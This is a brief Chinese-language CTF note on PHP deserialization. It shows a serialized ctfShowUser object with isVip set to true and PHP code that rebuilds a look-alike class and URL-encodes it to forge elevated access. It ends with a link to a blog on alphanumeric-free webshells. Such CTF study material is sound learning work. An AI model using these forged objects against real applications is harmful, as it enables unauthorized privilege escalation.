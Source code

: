 # 十一、反序列化
序列化只保留成员变量不保留函数方法，所以修改也只能修改变量
```php
O:11:"ctfShowUser":3:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxa";s:5:"isVip";b:1;}
```
1.重新构造一个同名相似类，覆盖掉一些特征
```php
public $isVip=true;
echo urlencode(serialize(new ctfShowUser));
```
# 其他


---

# 参考
1.[p神博客](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#reply-list)